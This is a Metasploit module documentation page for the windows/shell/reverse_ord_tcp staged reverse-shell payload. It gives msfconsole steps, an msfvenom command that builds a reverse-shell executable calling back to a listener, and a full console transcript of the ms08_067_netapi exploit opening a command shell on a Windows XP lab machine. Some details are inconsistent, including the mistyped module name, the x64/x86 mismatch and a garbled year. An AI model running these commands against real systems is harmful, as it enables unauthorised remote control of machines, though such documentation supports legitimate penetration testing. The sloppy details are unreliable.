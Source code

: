 windows/shell/reverse_ord_tmp:Windows Command Shell, Reverse Ordinal TCP Stager is an unique windows payload for Metasploit Framework.
It is really small (<100 bytes), it uses the existing ws2_32.dll in memory in connect and load the next stage of the payload.

It provides a shell on the target machine which can be used to achieve almost anything on the target pc.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64

## Verification Steps

windows/shell/reverse_tcp is typically used in two different ways.

1. As a payload for an exploit:

To check its compatibility with an exploit, select the exploit in the msf console and type the ```info``` command. The output will be similar to:

```
msf5 payload(windows/shell/reverse_tcp) > info

       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 283
       Rank: Normal

Provided by:
  spoonm <spoonm@no$email.com>
  sf <stephen_fewer@harmonysecurity.com>
  hdm <x@hdm.io>
  skape <mmiller@hick.org>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```


If the platform field includes Windows, then windows/shell/reverse_ord_tcp can be used as the
payload.

To use at as a payload for an exploit, use the following commands:
1. In msfconsole, select an exploit module compatible with windows.
2. Configure the options for that exploit.
3. Then run the following command: ```set windows/shell/reverse_ord_tcp```
4. Set the ```LHOST``` option, to be the IP address that the payload should connect to.
5. Then run the command: ```exploit```.

If the exploit is successful, the payload will get executed.


2. As a standalone(executable)

To use it as an executable, msfvenom can be used(msfvenom replaced msfpayload and msfencode in the year //)

A typical example of doing this is as follows:


```./msfvenom -p windows/shell/reverse_ord_tcp LHOST=192.168.23.1 LPORT=4444 -f exe -o /tmp/ordpayload.exe```

## Scenarios

The following commands are run on a Windows XP SP 2 English Machine:

```
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/shell/reverse_ord_tcp
payload => windows/shell/reverse_ord_tcp
msf exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.56.3     yes       The target address
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell/reverse_ord_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(windows/smb/ms08_067_netapi) > exploit
```

The above commands will result into the following scenario(leading to a shell on the target machine ):

```
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.3:445 - Automatically detecting the target...
[*] 192.168.56.3:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 192.168.56.3:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 192.168.56.3:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.56.3
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.3:1034) at 2018-08-17 15:25:02 +0530
```

